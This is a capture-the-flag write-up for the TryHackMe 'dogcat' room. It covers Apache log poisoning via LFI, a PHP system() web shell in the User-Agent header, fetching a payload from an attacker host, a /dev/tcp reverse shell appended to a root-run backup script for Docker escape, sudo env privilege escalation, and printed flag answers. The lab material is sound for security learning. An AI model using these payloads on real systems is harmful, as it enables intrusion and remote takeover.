







# Room Title

## Room Information

- **Room URL:** https://tryhackme.com/r/room/dogcat
- **Difficulty:** Medium
- **Date Completed:** 2025-12-21

## Overview
I learned Log Poisoning from this room.

## What is Log Poisoning

Log Poisoning is an attack technique that exploits web server log files. When a web server (like Apache or Nginx) logs requests, it records information such as the URL, User-Agent, and other headers. If an attacker can inject malicious code (like PHP) into these logs, and the application has a Local File Inclusion (LFI) vulnerability, the attacker can execute arbitrary code by including the log file through PHP.

### How it works

1. **Inject malicious code into logs** - Send a request with PHP code in the User-Agent header
2. **Access log is poisoned** - The server writes the malicious PHP code to the log file
3. **Include the log file via LFI** - Use the LFI vulnerability to include the poisoned log file
4. **Code execution** - PHP interprets and executes the injected code

### Example: Exploiting access.log

**Step 1: Inject PHP code via User-Agent**

```shell
$ curl --user-agent "<?php system(\$_GET['cmd']); ?>" http://target.com/
```

This request is logged in `/var/log/apache2/access.log`:
```
10.10.10.1 - - [21/Dec/2025:12:00:00 +0000] "GET / HTTP/1.1" 200 1234 "-" "<?php system($_GET['cmd']); ?>"
```

**Step 2: Include the log file through LFI**

```
http://target.com/?view=cat/../../../../../../var/log/apache2/access.log&ext=
```

**Step 3: Execute commands**

```
http://target.com/?view=cat/../../../../../../var/log/apache2/access.log&ext=&cmd=id
```

The PHP code in the log file is executed, and you can run system commands like `id`, `whoami`, or even download a reverse shell.

### Common log file locations

| Web Server | Log Path |
|------------|----------|
| Apache (Debian/Ubuntu) | `/var/log/apache2/access.log` |
| Apache (RHEL/CentOS) | `/var/log/httpd/access_log` |
| Nginx | `/var/log/nginx/access.log` |

## Reconnaissance
### Scan ports
```shell
$ rustscan -a 10.48.187.211
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http     syn-ack ttl 64
```

```shell
$ nmap -sV 10.48.187.211

```

### Scan directories
```shell
$ gobuster dir -u http://10.48.187.211 -w /usr/share/wordlists/dirb/big.txt -x php -t 50
...
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/cat.php              (Status: 200) [Size: 26]
/cats                 (Status: 301) [Size: 313] [--> http://10.49.149.183/cats/]
/dog.php              (Status: 200) [Size: 26]
/dogs                 (Status: 301) [Size: 313] [--> http://10.49.149.183/dogs/]
/flag.php             (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 418]
/server-status        (Status: 403) [Size: 278]
...
```

### Access the website
http://10.48.187.211



The url is changed to `http://10.48.187.211?view=cat` when I click the cat button.  
I guess view parameter is used to access the `cat.php` file.

Try to access the `flag.php` through `http://10.48.187.211?view=index`.  
The application validate the input. 



Maybe it only checks the input contains `dog` or `cat`.  
I can try to access the `flag.php` through `http://10.48.187.211?view=cat/../index`.

I got error message `Fatal error: Cannot redeclare containsStr()`.



Try directory traversal to access the `/etc/password` file though `http://10.48.187.211?view=cat/../../../../../../etc/passwd`.   
I found `index.php` is using `include` function and the `view` parameter is used as the argument.



### PHP Stream wrapper

PHP Stream wrapper is a feature that allows you to read files from the filesystem using a URL-like syntax.

`http://10.48.187.211?view=php://filter/read=convert.base64-encode/resource=cat/../index.php`


I can get base64 encoded content. I can decode it to get the content of the `index.php` file.  
`ext` parameter is used to specify the extension of the file.

```shell
$ echo "PCFET0NUWVBFIEhUTUw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+ZG9nY2F0PC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4dC9jc3MiIGhyZWY9Ii9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDxoMT5kb2djYXQ8L2gxPgogICAgPGk+YSBnYWxsZXJ5IG9mIHZhcmlvdXMgZG9ncyBvciBjYXRzPC9pPgoKICAgIDxkaXY+CiAgICAgICAgPGgyPldoYXQgd291bGQgeW91IGxpa2UgdG8gc2VlPzwvaDI+CiAgICAgICAgPGEgaHJlZj0iLz92aWV3PWRvZyI+PGJ1dHRvbiBpZD0iZG9nIj5BIGRvZzwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iLz92aWV3PWNhdCI+PGJ1dHRvbiBpZD0iY2F0Ij5BIGNhdDwvYnV0dG9uPjwvYT48YnI+CiAgICAgICAgPD9waHAKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICAkZXh0ID0gaXNzZXQoJF9HRVRbImV4dCJdKSA/ICRfR0VUWyJleHQiXSA6ICcucGhwJzsKICAgICAgICAgICAgaWYoaXNzZXQoJF9HRVRbJ3ZpZXcnXSkpIHsKICAgICAgICAgICAgICAgIGlmKGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICdkb2cnKSB8fCBjb250YWluc1N0cigkX0dFVFsndmlldyddLCAnY2F0JykpIHsKICAgICAgICAgICAgICAgICAgICBlY2hvICdIZXJlIHlvdSBnbyEnOwogICAgICAgICAgICAgICAgICAgIGluY2x1ZGUgJF9HRVRbJ3ZpZXcnXSAuICRleHQ7CiAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgIGVjaG8gJ1NvcnJ5LCBvbmx5IGRvZ3Mgb3IgY2F0cyBhcmUgYWxsb3dlZC4nOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgPz4KICAgIDwvZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg==" | base64 -d

<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

Try to get `/etc/passwd` again by `http://10.48.187.211?view=cat/../../../../../../etc/passwd&ext=`.  
Success to get the file content.



## Exploitation

### Log poisoning
This application is using Apache as web server. The log file is located at `/var/log/apache2/access.log` or `/var/log/httpd/access_log`.

Firstly, access the log file by http://10.48.187.211?view=cat/../../../../../../var/log/apache2/access.log&ext=



Poisoning log through user-agent.

```shell
$ curl --user-agent "<?php file_put_contents('/tmp/reverse-shell.sh', file_get_contents('http://<ip>:8081/reverse-shell.sh'));?>" http://10.48.187.211
```

Exploit the reverse shell code by log poisoning by accessing the http://10.48.187.211?view=cat/../../../../../../var/log/apache2/access.log&ext= to execute the above code.

```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
192.168.147.55 - - [21/Dec/2025:12:00:00 +0000] "GET /reverse-shell.sh HTTP/1.1" 200 
```

### Execute the reverse shell

Access the `http://10.48.187.211?view=cat/../../../../../../tmp/reverse-shell` to execute the reverse shell code.

```shell
$ nc -lnvp 1234
Linux 5e3fba6e9171 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
 06:19:47 up 51 min,  0 users,  load average: 0.01, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

## Get user flag

Finding flag files.

```shell
$ find / -name *flag*
...
find: '/var/lib/apt/lists/partial': Permission denied
/var/www/html/flag.php
/var/www/flag2_QMW7JvaY2LvK.txt
...
```

flag1 is `THM{Th1s_1s_N0t_4_Catdog_ab67edfa}`.

```shell
$ cat /var/www/html/flag.php
<?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>
```

flag2 is `THM{LF1_t0_RC3_aec3fb}`

```shell
$ cat /var/www/html/flag2_QMW7JvaY2LvK.txt
THM{LF1_t0_RC3_aec3fb}
```

## Privilege Escalation
### Check the sudo privileges

`/usr/bin/env` command can be run as root.

```shell
$ sudl -l
/bin/sh: 9: sudl: not found
$ sudo -l
Matching Defaults entries for www-data on 99a7a2a677c1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 99a7a2a677c1:
    (root) NOPASSWD: /usr/bin/env
```    

### Finding the vulnerability of env command

Looking for the vulnerability on the [GTFOBins](https://gtfobins.github.io/gtfobins/env/).

> `/bin/env` does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
$ sudo env /bin/sh
```

Execute the command to get the root shell.

```shell
$ sudo env /bin/bash
id
uid=0(root) gid=0(root) groups=0(root)

find / -name *flag*
...
/root/flag3.txt
...

cat /root/flag3.txt
THM{D1ff3r3nt_3nv1ronments_874112}
```

## Searching final flag4

Put the `linpeas.sh` file to the target machine.

```shell
$ curl --user-agent "<?php file_put_contents('/tmp/linpeas.sh', file_get_contents('http://<ip>:8081/linpeas.sh'));?>" http://10.48.187.211
```

Execute the `linpeas.sh` to find suspicious files.  
There is `/opt/backups` directory that is suspicious.

```shell
$ ./tmp/linpeas.sh
...
[+] System stats
Filesystem Size Used Avail Use% Mounted on
THM DIf313nt_3nvlro
overlay 9.8G 5.3G 4.0G 58%
tmpfs 64M 0 64M 0% /dev
tmpfs 240M 240M 0% /sys/fs/cgroup
shm 64M 0 64M 0% / dev/ shm
/dev/xvda2 9.8G 5.3G 4. 0G 58% /opt/backups
tmpfs 240M 240M 0% /proc/acpi
tmpfs 240M 240M 0% /proc/scsi
tmpfs 240M 240M 0% /sys/firmware
...
```

Check the files in the `/opt/backups` directory.  
`backup.sh` creates backup file from `/root/container` directory.

```shell
$ ls -la /opt/backups
total 2884
-rwxr--r-- 1 root root     115 Dec 21 06:24 backup.sh
-rw-r--r-- 1 root root 2949120 Dec 21 06:33 backup.tar

$ cat /opt/backups/backup.sh
tar cf /root/container/backup/backup.tar /root/container
```

See the `/root` directory, but there is no `container` directory.

```shell
$ ls -l /root
total 4
-r-------- 1 root root 35 Mar 10  2020 flag3.txt
```

Check the `/` directory and see the `.dockerenv` file.  
This indicates that this is a Docker container and I can guess `backup.sh` is executed by the host.

```shell
$ ls -la /
...
-rwxr-xr-x   1 root root    0 Dec 21 05:28 .dockerenv
...
```

Add reverse shell code to the `backup.sh` file.

```shell
$ echo "bash -i >& /dev/tcp/<attack_machine_ip>/8081 0>&1" >> /opt/backups/backup.sh
```

I can be in the host machine and find the flag4.

```shell
$ nc -lnvp 8081
root@dogcat:~# ls
ls
container
flag4.txt
root@dogcat:~# cat flag4.txt
cat flag4.txt
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
```

## Completed



## Used Tools

- rustscan
- nmap
- gobuster
- linpeas
- nc

## References
- [ログポイズニングとは！【サイバーセキュリティ入門#9】](https://www.youtube.com/watch?v=hs0H5EQ3A8E) by しいたま@サイバーセキュリティ
